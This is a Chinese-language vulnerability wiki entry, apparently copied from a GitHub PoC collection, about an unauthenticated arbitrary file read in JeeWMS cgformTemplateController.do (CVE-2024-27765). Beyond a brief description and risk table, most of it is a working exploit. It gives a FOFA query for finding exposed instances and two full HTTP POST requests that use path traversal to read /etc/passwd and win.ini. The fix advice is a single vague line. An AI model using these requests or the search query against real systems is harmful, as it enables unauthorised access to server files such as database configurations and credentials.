

# JeeWMS cgformTemplateController.do 任意文件读取漏洞(CVE-2024-27765)

# 漏洞描述

JeeWMS cgformTemplateController.do 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 影响版本

Jeewms <= v.3.7

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="url:userController.do?userOrgSelect&userId=" && "loginController.do?changeDefaultOrg"

POC/EXP：

POST /rest/../cgformTemplateController.do?showPic HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

code=default&path=../../../../../../../../../../etc/passwd

POST /rest/../cgformTemplateController.do?showPic HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

code=default&path=../../../../../../../../../../Windows/win.ini

# 漏洞修复

关注厂商官网动态，及时更新补丁信息。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
